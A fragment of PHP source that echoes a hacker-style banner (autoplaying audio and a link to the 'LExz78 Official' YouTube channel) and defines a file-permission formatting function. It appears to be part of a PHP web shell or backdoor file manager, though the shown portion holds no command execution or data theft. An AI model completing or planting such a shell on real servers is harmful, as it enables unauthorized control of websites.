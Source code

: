 echo '<br />
<center>
<audio src="https://www34.zippyshare.com/downloadAudio?key=UXdef9Vn&amp;time=" type="audio/mpeg" controls="controls" autoplays="autoplays"></audio>
<br>
<a href="https://m.youtube.com/channel/UC8WX-5Nqbp8JX_go_y88lMA/videos"><b><h3><font face="courier new" color="yellow">LExz78 Official</font></h3></b></a>
</center>
</BODY>
</HTML>';
function perms($file){
$perms = fileperms($file);

if (($perms & 0xC000) == 0xC000) {
// Socket
$info = 's';
} elseif (($perms & 0xA000) == 0xA000) {
// Symbolic Link
$info = 'l';
} elseif (($perms & 0x8000) == 0x8000) {
// Regular
$info = '-';
} elseif (($perms & 0x6000) == 0x6000) {
// Block special
$info = 'b';
} elseif (($perms & 0x4000) == 0x4000) {
// Directory
$info = 'd';
} elseif (($perms & 0x2000) == 0x2000) {
// Character special
$info = 'c';
} elseif (($perms & 0x1000) == 0x1000) {
// FIFO pipe
$info = 'p';
} else {
// Unknown
$info = 'u';
}

// Owner
$info .= (($perms & 0x0100) ? 'r' : '-');
$info .= (($perms & 0x0080) ? 'w' : '-');
$info .= (($perms & 0x0040) ?
(($perms & 0x0800) ? 's' : 'x' ) :
(($perms & 0x0800) ? 'S' : '-'));

// Group
$info .= (($perms & 0x0020) ? 'r' : '-');
$info .= (($perms & 0x0010) ? 'w' : '-');
$info .= (($perms & 0x0008) ?
(($perms & 0x0400) ? 's' : 'x' ) :
(($perms & 0x0400) ? 'S' : '-'));
